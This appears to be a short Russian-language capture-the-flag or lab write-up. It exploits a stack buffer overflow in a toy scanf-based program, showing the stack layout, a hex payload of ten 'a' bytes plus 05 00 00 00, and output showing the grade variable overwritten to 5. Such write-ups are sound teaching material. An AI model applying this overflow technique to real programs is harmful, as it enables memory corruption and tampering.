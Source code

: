 У нас нет проверки на размер буфера, можем за него вылезти, благо канарейки нет.

```
make main
objdump -d main -M intel | less
```

Стек на момент call scanf выглядит так
```
ret
ebp
ebx
---

result
* * * *
* * * *
XX XX * * <- buffer

---
---
&buffer
string <- esp
```

Пишем в payload.txt. Я для этого пользовался ghex
```
61 61 61 61 61 61 61 61 61 61 05 00 00 00
```

Закидываем пэйлоад в программу
```
./main < payload.txt
```

Радуемся пятёрке
```
What's the definition of limit?
I have heard enough!
Your mark is 5
```